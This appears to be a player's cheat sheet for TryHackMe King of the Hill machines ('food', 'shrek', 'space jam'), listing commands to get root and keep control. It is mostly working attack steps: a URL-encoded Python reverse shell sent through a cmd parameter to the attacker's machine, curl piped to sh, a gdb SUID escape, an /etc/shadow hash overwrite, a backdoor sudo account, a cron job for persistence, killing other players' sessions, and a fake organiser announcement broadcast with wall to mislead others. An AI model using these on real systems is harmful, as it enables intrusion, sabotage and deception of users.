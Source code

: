 start up the in-browser machine  

# useful commands
find all admin commands:

`find / -perm -u=s -type f 2>/dev/null`

run linPEAS.sh(tool that finds potential privilege escalation points)

`curl https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS | sh`  

# notable places:  
/dev/urandom - infinite stream of random characters(usually whitespace and non-ascii)  
/dev/zero - infinite stream of zeroes  
/etc/sudoers - place that determines who is sudo  
/etc/shadow - password place   
/etc/passwd - place that stores users  
/root/king.txt - ideally it stays as Happygator  

# machines:
## food:  

food:givemecookies (telnet or ssh)  
ramen:noodlesRTheBest (ssh)  
pasta:pastaisdynamic  
`sudo chmod -xs vim.basic`  
afterwards stuff  
```
while :  
	do  
		sudo pkill -9 -u food  
		sudo pkill -9 -u bread  
		sudo pkill -9 -u tryhackme  
done  
```

profit  


## shrek:  
navigate to <ip>/Cpxtpt2hWCee9VFa.txt  
save the rsa key  
```
chmod 600 <filename>  
ssh -i <filename> shrek@<ip>  
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```  
be root  
copypaste these in place of shrek's account in /etc/shadow  
`shrek:$6$RwIzHJ10kWpv2ynr$92aiv.epBTHF53gJSCgywTU6wAqGjuc1LP7gHaRKdJiKTAuOSHHLYFfZnTVI65U0PucUV7Dq/ntD0Nhcf5.yX1:18333:0:99999:7:::`  
you now have shrek:onionshavelayers  
make shrek a sudoer  
```
sudo chmod 0000 /usr/bin/gdb  
cd .ssh  
rm *
```  
grab the flag if someone else hasn't already  
```
sudo systemctl stop httpd  
sudo systemctl stop tomcat
```  
afterwards stuff        




## space jam:  
```
ncat -lvnp 4444  
curl "<BOX_IP>:3000/?cmd=python%20-  c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<YOUR_MACHINE_IP>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"  
LFILE=/root/king.txt  
echo "Happygator" | cp /dev/stdin "$LFILE"
```  
you're king and root  
afterwards stuff  
```
systemctl stop easyaccess  
systemctl stop daemon
```  
change password  
`killall node`(make sure to ssh first)  
`chmod /bin/cp 000`      

???  
profit      




# afterwards stuff:  
sudo useradd technoblade(i typically use password neverdie)  
sudo usermod -aG sudo technoblade  
echo "banana" > /dev/pts/<0 through 9>  
cat /dev/urandom > /dev/pts/<everyone except you> &  
use social engineering wall  

## social engineering wall:
put this in a message.txt file
`This is Irvin. We accidentally used the wrong machine; so we're going to restart this KoTH with the correct machine in order to ensure all teams get a chance. I'll put the correct link once the new machine gets up and running.`
then do:
`sudo wall message.txt`

## script to stay king:
```
sudo crontab -e
```
when the editor pops up put this in and exit  
`* * * * * echo Happygator > /root/king.txt`



